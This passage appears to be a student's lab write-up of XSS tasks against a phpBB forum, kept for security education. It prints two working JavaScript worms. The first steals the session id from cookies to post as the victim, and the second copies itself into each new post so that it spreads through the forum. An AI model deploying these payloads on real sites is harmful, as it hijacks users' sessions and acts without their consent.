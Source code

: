 ### Task 5: Writing an XSS Worm
In task, we are going to write a XSS worm. Once somebody views the post containing this worm, the worm will be triggered and a new post will be created by the user without his approval.
The worm has following content:
```HTML
<script>
Ajax=new XMLHttpRequest();
Ajax.open("POST","posting.php",true);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
sid=document.cookie.match(/sid=(\w*);/)[1];
Ajax.send("subject=Aha&mode=newtopic&f=1&post=Submit&sid="+sid+"&message=Boom!%20You%20got%20infected");
</script>
```
We should pay attention that phpBB parse insert `<br/>` as new lines for us, which will cause errors. So we simply merge all contents into one line when we create do actual work. Also as we known in previous tasks, we need to extract user's **sid** from cookies to create a new post.

When some other users view this malicious post, he will automatically create a new post with title _Aha_ and message _Boom! You got infected_.


### Task 6: Writing a Self-Propagating XSS Worm
In task, we are going to write a XSS worm that can self-propagate. Once somebody views the post containing this worm, the worm will be triggered and a new post containing a copy of the worm will be created under the name of the victim.
The worm is a post whose contents are like this:
```HTML
<div id="worm">
Boom! You got infected.
<script>
Ajax=new XMLHttpRequest();
Ajax.open("POST","posting.php",true);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
sid=document.cookie.match(/sid=(\w*);/)[1];
w=document.getElementById('worm');
w=encodeURIComponent('<div id="worm">'+w.innerHTML+'</div>');
Ajax.send("subject=XSS+Worm&mode=newtopic&f=1&post=Submit&sid="+sid+"&message="+w);
</script>
</div>
```
Again, as the same reason we know before, we need to merge above code into one line before posting.

Then we simulate following scenery: 
1. `ted` is the attacker, he create a new post containing the XSS worm.
2. `bob` is curious and he click into the post created by `ted`
3. `alice` is a friend of `bob`, she looked the worm post created by `bob`
4. `admin` see lots of _XSS Worm_ post, he wants to know what's happening and views alice's post.

The screen shot shows the result of above actions by different users:
![Result of XSS Worm][worm]
Every time someone views a XSS worm post, he will create a copy of the post. By this way the worm will reproduce itself rapidly in the forum.
